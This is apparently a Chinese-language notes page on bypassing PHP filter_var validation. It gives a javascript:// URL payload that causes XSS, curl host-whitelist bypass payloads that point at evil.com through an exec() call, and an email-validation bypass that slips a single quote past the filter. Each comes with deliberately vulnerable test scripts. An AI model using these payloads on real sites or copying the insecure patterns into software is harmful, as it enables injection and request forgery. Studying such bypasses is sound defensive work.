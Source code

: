 # filter_var

**函数结构：**

```
filter_var ( mixed $variable [, int $filter = FILTER_DEFAULT [, mixed $options ]] ) : mixed
```
## FILTER_VALIDATE_URL
**参考：**

- https://secure.php.net/manual/zh/function.filter-var.php
- https://www.anquanke.com/post/id/101058

### 利用

#### javascript

```php
filter_var('javascript://comment%250Aalert(1)', FILTER_VALIDATE_URL);
```

上述代码可能会导致XSS攻击。

因为`//`在JavaScript中表示单行注释，`%250a`解码后为换行符，所以`alert(1)`和`//`不在一行，js代码成功执行。

**测试代码**

```php
<?php
$url = filter_var($_GET['url'],FILTER_VALIDATE_URL);
var_dump($url);
$url=htmlspecialchars($url);
var_dump($url);
echo "<a href='$url'>Next slide </a>";
```

![1563864262526](/images/19-7-23_PHP_filter-var_filter-validate-url_1.png)

#### curl

**利用条件**

- curl<=7.47.0（win下7.55.1不可用）

在如下脚本中：

```php
<?php
   $url = $_GET['url'];
   echo "Argument: ".$url."\n";
   if(filter_var($url, FILTER_VALIDATE_URL)) {
      $r = parse_url($url);
      var_dump($r);
      if(preg_match('/skysec\.top$/', $r['host'])) {
          echo 'start curl';
         exec('curl -v -s "'.$r['host'].'"', $a);
      } else {
         echo "Error: Host not allowed";
      }
   } else {
      echo "Error: Invalid URL";
   }
?>
```
可用payload：
```url
访问evil.com:2333
?url=0://evil.com:23333;skysec.top:80/
访问evil.top
?url=0://evil.com$skysec.top
访问evil.com:80
?url=0://evil.com:80$skysec.top
```



### FILTER_VALIDATE_EMAIL
参考：
- https://www.leavesongs.com/PENETRATION/some-tricks-of-attacking-lnmp-web-application.html#0x03-filter_validate_email
- https://stackoverflow.com/questions/19220158/php-filter-validate-email-does-not-work-correctly

绕过方法为：`"Joe'Blow"@example.com`，逃逸了单引号。
```php
<?php
$email = '"Joe\'Blow"@example.com';
if (filter_var($email, FILTER_VALIDATE_EMAIL))
        var_dump(filter_var($email, FILTER_VALIDATE_EMAIL));
else
        echo "email not correct";

//C:\Users\j7ur8\Desktop\test.php:4:string(22) ""Joe'Blow"@example.com"
?>
```
